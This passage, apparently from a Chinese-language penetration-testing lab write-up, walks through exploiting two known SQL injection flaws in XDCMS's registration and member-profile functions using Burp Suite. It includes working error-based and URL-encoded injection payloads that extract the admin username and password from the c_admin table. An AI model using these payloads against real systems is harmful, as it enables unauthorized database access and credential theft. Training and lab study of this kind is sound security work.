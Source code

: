 再依次点击 **Action -> Send to Repeater**，便可在 **Repeater** 选项卡中看到刚才抓取的数据包，用于进行重放攻击：

![register_repeater](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_repeater.png)

根据漏洞报告中的利用方法以及 payload：

```sql
' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM (SELECT count(1),concat(round(rand(0)),(SELECT concat(username,0x23,password) FROM c_admin LIMIT 0,1))a FROM information_schema.tables GROUP by a)b#
```

将该 payload 插入请求数据的 `username` 参数中，点击 **Go**，在响应数据中即可看到报错信息中泄露的管理员账号密码：

![register_repeater_response](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_repeater_response.png)

当然也可直接在 **Proxy** 选项卡中插入 payload，点击 **Forward**，将抓取的数据包转发给服务器：

![register_proxy_forward](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_proxy_forward.png)

在浏览器的注册响应信息中同样能看到账号密码：

![register_proxy_response](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/register_proxy_response.png)

## 会员资料修改处的 SQL 注入

第二个漏洞也是由于 `/system/modules/member/index.php` 中的编辑函数 `edit_save()` 过滤不严，可绕过限制造成 SQL 注入。同样地，此处不研究漏洞原理，只对该漏洞进行利用，详情可参考：

> [xdcms通用型全版本注入漏洞](http://www.anquan.us/static/bugs/wooyun-2013-043334.html)

利用刚刚注册好的 **sql_injection** 账户登录，准备对 **资料管理 -> 基本资料** 中的 **姓名** 进行修改：

![modify_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_info.png)

打开 Burp Suite 后，点击 **更新**，成功截取到更改请求数据包：

![modify_capture](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_capture.png)

根据漏洞报告中的利用方法以及 payload：

```url
%60%3D%28select%20group_concat%28username%2C0x3a%2Cpassword%29%20from%20c_admin%20where%20id%3D1%29%23
```

该 payload 经过 URL 解码后为：

```sql
`=(select group_concat(username,0x3a,password) from c_admin where id=1)#
```

将该 payload 插入请求数据的 `field%5Btruename%5D`中，**注意是要将经过 URL 编码后 payload 插入到 `truename` 与 `%5D` 之间**，否则漏洞利用失败。接着点击 **Forward**：

![modify_forward](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E4%BD%A0%E6%98%AF%E4%BC%9A%E5%91%98%E5%90%97%EF%BC%9F/modify_forward.png)
